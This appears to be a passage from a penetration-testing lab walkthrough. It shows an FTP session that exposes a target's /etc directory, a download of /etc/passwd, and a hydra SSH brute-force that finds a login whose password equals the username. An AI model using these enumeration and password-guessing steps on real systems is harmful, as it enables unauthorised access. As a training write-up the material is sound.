 ```
200 PORT command successful. Consider using PASV.                                                                       
150 Here comes the directory listing.                                                                                   
drwxr-xr-x    5 0        0            4096 Jun 03  2016 X11                                                             
drwxr-xr-x    3 0        0            4096 Jun 03  2016 acpi                                                            
-rw-r--r--    1 0        0            3028 Apr 20  2016 adduser.conf   
<snip>
drwxr-xr-x    4 0        0            4096 May 05  2021 vmware-tools
-rw-r--r--    1 0        0             278 Jun 03  2016 vsftpd.banner
-rw-r--r--    1 0        0               0 Jun 03  2016 vsftpd.chroot_list
-rw-r--r--    1 0        0            5961 Jun 04  2016 vsftpd.conf
-rw-r--r--    1 0        0               0 Jun 03  2016 vsftpd.user_list
lrwxrwxrwx    1 0        0              23 Jun 03  2016 vtrgb -> /etc/alternatives/vtrgb
-rw-r--r--    1 0        0            4942 Jan 08  2016 wgetrc
drwxr-xr-x    3 0        0            4096 Jun 03  2016 xdg
drwxr-xr-x    2 0        0            4096 Jun 03  2016 xml
drwxr-xr-x    2 0        0            4096 Jun 03  2016 zsh
226 Directory send OK.                                                 
```

I snipped the output to the ls command as it was quite long! But upon investigation we can clearly see that we are in the `/etc/` directory on the box! Big woopsie. We can read a whole bunch of info on the box from this, such as all of the users from the `/etc/passwd` file. These are the same users that we were able to enumerate from the samba share.

```
ftp> get passwd                                                                                                         
local: passwd remote: passwd                                                                                            
200 PORT command successful. Consider using PASV.                                                                       
150 Opening BINARY mode data connection for passwd (2908 bytes).                                                        
100% |***************************************************************************|  2908        8.10 MiB/s    00:00 ETA 226 Transfer complete.                                                                                                  
2908 bytes received in 00:00 (34.43 KiB/s)                                                                              ftp>
```

We can run hydra once again but now with our users and with our new flag that we learned on the SSH service:

```
$ hydra -L users.out -e nsr 192.168.217.148 ssh -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 12:04:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 84 login tries (l:28/p:3), ~6 tries per task
[DATA] attacking ssh://192.168.217.148:22/
[22][ssh] host: 192.168.217.148   login: SHayslett   password: SHayslett
```
